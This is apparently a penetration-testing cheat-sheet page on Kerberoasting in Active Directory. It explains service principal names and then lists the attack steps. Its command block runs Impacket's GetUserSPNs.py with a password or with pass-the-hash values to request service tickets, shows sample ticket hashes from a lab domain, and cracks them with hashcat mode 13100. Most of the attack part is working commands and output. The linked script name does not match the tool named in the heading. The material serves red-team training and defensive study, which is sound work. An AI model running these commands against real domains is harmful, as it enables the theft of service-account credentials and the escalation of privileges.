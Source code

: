 # Kerberoasting - SPN

## SPN

> A service principal name (SPN) is the name by which a **Kerberos client uniquely identifies an instance of a service** for a given Kerberos target computer.&#x20;
>
> If you install multiple instances of a service on computers throughout a forest, **each instance must have its own SPN**. A given service instance can have multiple SPNs if there are multiple names that clients might use for authentication. For example, an SPN always includes the name of the host computer on which the service instance is running, so a service instance might register an SPN for each name or alias of its host.

## Kerberoasting

So what's this attack all about :

* An attacker **scans** Active Directory for **user accounts with SPN values set** using any number of methods, including PowerShell and LDAP queries, scripts provided by the Kerberoast toolkit, or tools like PowerSploit, Bloodhound ..
* Once a list of target accounts is obtained, **the attacker requests service tickets** from AD using SPN values
* Using **MimiKatz** or **GetSPN.py**, the attacker then extracts the service tickets to memory and saves the information to a file
* Once the tickets are saved to disk, the attacker passes them into a **password cracking** script that will run a dictionary of passwords as NTLM hashes against the service tickets they have extracted until it can successfully open the ticket. When the ticket is finally opened, it’ll be presented to the attacker in clear text.

### `Impacket-GetUserSPNs`

{% embed url="https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py" %}

```bash
GetUserSPNs.py $domain_name/$username:$password -dc-ip $ip -request

# if we have hashes
GetUserSPNs.py -dc-ip $ip -hashes f220d3988deb3f516c73f40ee16c431d:f220d3988deb3f516c73f40ee16c431d -outputfile output.txt $domain_name/$username


# output should give :
ServicePrincipalName                Name        MemberOf                                              PasswordLastSet
----------------------------------  ----------  ----------------------------------------------------  -------------------
http/win10.sittingduck.info         uberuser    CN=Domain Admins,CN=Users,DC=sittingduck,DC=info  2015-11-10 23:47:21
MSSQLSvc/WIN2K8R2.sittingduck.info  sqladmin01                                                        2016-05-13 19:13:20

$krb5tgs$23$*sqladmin01$SITTINGDUCK.INFO$SPN*$6e5307df490c6e3339f613fdc5655785$80ba233b4d24531202f2e354c99e7eda807bde7aeeb48ee4cdb6bf809d78652413699e3cff8b9b78b9ee70e997a538155fc7f72e208d715020d458b8413d4b12b212738833c4694d84937d65cb8ecd0020c00a5d39c07da35a748ea2cb062fca4fa9b282e7046d70ee1cae4cfee7d6f791052e283
$krb5tgs$23$*uberuser$SITTINGDUCK.INFO$SPN*$27c08ed2a8d5394f66e8c13c25c98393$310b787ec5c10b20fcc0acb1406b6a6e2ffddd71de3dc4c70c19e5dfcf262cc88574e61cb3940ebfd574b2bb555f2b05f84d8526e3cf46fc0ca57e03467729757cbf79da9f55cde9dabdda68e80dce6564e9f1b904b0585dbc813b82abf89e973e41c102b664f4c649f85acaf7904a273dddcb9315a66f27334f313190e1caf4f5055b671d250f5912cc1871a1dd4a6126087ddfb98ade8f7dde495ee8ad76583aa5a12eef63a690dd82a15eaaca0d7594f2f1dbc899035d89dd628b291590058cfb3405d1dfe4a383be5704465d9c8972ef8f1cba3541fdfa7dcf5063eaed74051fa18bd73f7b4f7d77

# copy the tickets hashes to file and crack them
hashcat -m 13100 tickets_file dict_file -O
```
